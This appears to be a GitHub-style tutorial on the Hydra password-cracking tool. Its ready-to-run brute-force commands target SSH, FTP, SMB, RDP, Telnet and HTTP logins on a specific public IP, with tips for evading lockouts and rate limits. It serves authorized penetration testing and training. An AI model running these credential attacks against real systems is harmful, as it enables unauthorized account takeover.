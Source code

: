 # Hydra Guide

Hydra is a powerful password-cracking tool used for brute-forcing authentication on various protocols and services. This guide provides a structured overview of using Hydra on Kali Linux, including common commands, attack types, and best practices for ethical penetration testing.

## Overview

Hydra is designed to perform brute-force attacks against services like HTTP, SSH, FTP, and more, by attempting username and password combinations. It supports multiple protocols and is highly configurable for targeted attacks.

## Prerequisites

- **Permissions**: Ensure you have explicit authorization to test the target system or service.
- **Installation**: Hydra is pre-installed on Kali Linux. Verify with `hydra -V`.
- **Wordlists**: Use quality wordlists (e.g., `/usr/share/wordlists/rockyou.txt`) for passwords and usernames.
- **Target**: Identify the target IP, port, and service (e.g., `157.180.117.237:8081` running HTTP).

## Basic Hydra Command

```bash
hydra -l <username> -P <password-wordlist> <target-ip> <service>
```

- `-l <username>`: Specifies a single username to test.
- `-P <password-wordlist>`: Specifies a password wordlist (e.g., `/usr/share/wordlists/rockyou.txt`).
- `<target-ip>`: The target IP address or hostname.
- `<service>`: The service to attack (e.g., `http-get`, `ssh`, `ftp`).

**Example**:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 157.180.117.237 http-get / -s 8081
```

- Attempts to brute-force the `admin` account on `157.180.117.237:8081` using HTTP GET requests to `/`.

## Common Hydra Attack Types

Hydra supports various protocols and attack methods. Below are examples for commonly targeted services.

### HTTP GET/POST Brute-Force

- **HTTP GET**:

  ```bash
  hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8081 157.180.117.237 http-get /
  ```

  - `-s 8081`: Specifies the port (default is 80 for HTTP).
  - `http-get /`: Targets the root path (`/`) with GET requests.

- **HTTP POST** (Form Login):

  ```bash
  hydra -l admin -P /usr/share/wordlists/rockyou.txt 157.180.117.237 http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid"
  ```

  - `http-post-form`: Targets a login form.
  - `/login`: Path to the login form.
  - `username=^USER^&password=^PASS^`: Form parameters with `^USER^` and `^PASS^` as placeholders.
  - `F=Invalid`: Failure message indicating an incorrect login attempt.

### SSH Brute-Force

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 157.180.117.237 ssh
```

- `ssh`: Targets SSH service (default port 22).
- Attempts to brute-force the `root` account using the specified password list.

### FTP Brute-Force

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 157.180.117.237 ftp
```

- `ftp`: Targets FTP service (default port 21).
- Brute-forces the `user` account with passwords from the wordlist.

### SMB Brute-Force

```bash
hydra -l administrator -P /usr/share/wordlists/rockyou.txt 157.180.117.237 smb
```

- `smb`: Targets SMB service (default ports 139/445).
- Attempts to brute-force the `administrator` account.

### RDP Brute-Force

```bash
hydra -l administrator -P /usr/share/wordlists/rockyou.txt 157.180.117.237 rdp
```

- `rdp`: Targets Remote Desktop Protocol (default port 3389).
- Brute-forces the `administrator` account.

### Telnet Brute-Force

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 157.180.117.237 telnet
```

- `telnet`: Targets Telnet service (default port 23).
- Attempts to brute-force the `user` account.

## Useful Hydra Options

- **Username Options**:
  - `-l <username>`: Single username (e.g., `-l admin`).
  - `-L <username-wordlist>`: List of usernames (e.g., `-L users.txt`).
  - `-u`: Loop through usernames first (default is passwords first).
- **Password Options**:
  - `-P <password-wordlist>`: Password wordlist (e.g., `-P /usr/share/wordlists/rockyou.txt`).
  - `-p <password>`: Single password (e.g., `-p password123`).
- **Performance**:
  - `-t <tasks>`: Number of parallel tasks (default: 16; e.g., `-t 32` for faster attacks).
  - `-w <seconds>`: Wait time between attempts (e.g., `-w 5` to avoid lockouts).
- **Output**:
  - `-o <file>`: Save results to a file (e.g., `-o results.txt`).
  - `-f`: Stop after finding the first valid credential pair.
  - `-vV`: Verbose output for debugging.
- **Service-Specific**:
  - `-s <port>`: Specify a non-standard port (e.g., `-s 8081`).
  - `-S`: Use SSL/TLS for the connection (e.g., for HTTPS).
  - `-M <file>`: Target multiple hosts from a file (e.g., `-M targets.txt`).
- **Proxy Support**:
  - `--proxy <ip:port>`: Route traffic through a proxy (e.g., `--proxy 127.0.0.1:8080`).

**Example with Advanced Options**:

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -t 16 -o results.txt -vV 157.180.117.237 http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid" -s 8081
```

- Uses a username list, limits to 16 tasks, saves output, and targets a login form on port 8081.

## Hydra Workflow

Follow this step-by-step process for effective brute-forcing:

1. **Identify Target Service**:

   - Use tools like Nmap to identify open ports and services (e.g., `nmap -sV 157.180.117.237`).
   - Note the service (e.g., HTTP, SSH) and port (e.g., 8081).

2. **Prepare Wordlists**:

   - Select or create username and password wordlists (e.g., `/usr/share/wordlists/rockyou.txt`).
   - For forms, inspect the login page (e.g., via Burp Suite) to identify form parameters and failure messages.

3. **Test with Single Username**:

   ```bash
   hydra -l admin -P /usr/share/wordlists/rockyou.txt 157.180.117.237 http-get / -s 8081
   ```

   - Start with a known or common username (e.g., `admin`).

4. **Expand to Username List**:

   ```bash
   hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 157.180.117.237 http-get / -s 8081
   ```

   - Use a username wordlist for broader coverage.

5. **Refine Attack**:

   - Adjust `-t` and `-w` to balance speed and avoid account lockouts.
   - Use `-f` to stop after finding valid credentials.

**Example Workflow**:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 157.180.117.237 ssh
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 157.180.117.237 ftp
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -t 8 -o results.txt 157.180.117.237 http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid" -s 8081
```

## Best Practices

1. **Start Small**: Use small wordlists and single usernames to test the target without triggering lockouts.
2. **Monitor Lockouts**: Check for account lockout policies and use `-w` to add delays if needed.
3. **Save Results**: Always use `-o` to save successful credentials for reporting.
4. **Stay Legal**: Only perform brute-forcing on systems with explicit permission.
5. **Combine Tools**: Use Hydra alongside Nmap, Burp Suite, or Metasploit for comprehensive testing.
6. **Optimize Wordlists**: Tailor wordlists to the target (e.g., using `cewl` to scrape site-specific terms).

## Common Issues and Solutions

- **Account Lockouts**: Reduce `-t` or add `-w` to slow down attempts; verify lockout policies with the system owner.
- **Connection Errors**: Ensure the target IP, port, and service are correct; use `-vV` for debugging.
- **Form Attacks Fail**: Verify form parameters and failure messages using a web proxy (e.g., Burp Suite).
- **Rate Limiting**: Use `--proxy` or `-w` to bypass restrictions or slow down requests.

## Additional Notes

- **Wordlists**: Explore `/usr/share/wordlists/` for additional lists (e.g., SecLists, dirb wordlists).
- **Custom Attacks**: Use Hydra’s `-e` option to test empty passwords (`-e n`), same as username (`-e s`), or reverse username (`-e r`).
  - Example: `hydra -l admin -P passwords.txt -e ns 157.180.117.237 ssh`.
- **Documentation**: Run `hydra -h` or consult the official THC-Hydra documentation for advanced options.
